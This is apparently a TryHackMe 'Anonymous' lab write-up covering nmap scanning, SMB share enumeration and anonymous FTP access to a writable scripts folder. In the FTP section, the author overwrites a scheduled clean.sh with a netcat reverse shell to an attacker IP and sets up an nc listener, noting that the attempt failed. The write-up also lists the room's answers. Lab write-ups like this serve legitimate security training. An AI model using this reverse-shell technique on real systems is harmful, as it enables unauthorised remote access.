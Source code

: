 # TryHackMe - Anonymous - Linux

## Nmap

```
┌──(root💀kali)-[~/Documents/tryhackme/anonymous]
└─# nmap -T4 -sC -sV -O -p- 10.10.55.112                                                                                                                                                                                               130 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-30 17:28 EDT
Stats: 0:04:57 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.59% done; ETC: 17:41 (0:07:53 remaining)
Stats: 0:08:17 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 55.55% done; ETC: 17:43 (0:06:38 remaining)
Nmap scan report for 10.10.55.112
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.22.56
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/30%OT=21%CT=1%CU=34181%PV=Y%DS=4%DC=I%G=Y%TM=62BE199
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2022-06-30T21:45:44
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-06-30T21:45:44+00:00

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1039.43 seconds
```

## SMB

```
┌──(root💀kali)-[~]
└─# smbclient -L \\10.10.55.112
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

## FTP

- According to our nmap We are allowed to login as anonymous. It does work  
![image](https://user-images.githubusercontent.com/96747355/176789590-00febf49-a0d5-45f4-80c5-79ca143bd02f.png)  
- Here are the files we can download in our machine for further examination  
![image](https://user-images.githubusercontent.com/96747355/176789837-68e01438-4c77-4b90-bf71-b22e6bfb1232.png)  
- Here is the content of the files  
![image](https://user-images.githubusercontent.com/96747355/176790036-bf157c8f-6b52-4e8b-97ae-d518d19a708a.png)  
- It seems like we are allowed to write in the clean.sh file. Also if we check multiple times the scripts folder we can see that the log file is regurlarly updated. It is worth modifyin the script and try to get a reverse shell with it.  
![image](https://user-images.githubusercontent.com/96747355/176791076-258219c8-e3fa-48d4-90c4-677bf7912a2f.png)
- In the picture above we can see that the second ls shows that the log file is bigger and the time is later
- Let's try to modify the clean script with this 
```
#!/bin/bash

netcat 10.13.22.56 4444 -e /bin/bash
```
- we set our listener `rlwrap nc -lvnp 4444`
- We transfer the new file  
![image](https://user-images.githubusercontent.com/96747355/176791697-6d3b82f9-82fd-4720-bbcf-2996cfa89627.png)
- So nothing happens with this

## Questions

1. Enumerate the machine.  How many ports are open? `4`
2. What service is running on port 21? `ftp`
3. What service is running on ports 139 and 445? `smb`
4. There's a share on the user's computer.  What's it called? `pics`
- I let you find the flags :) 
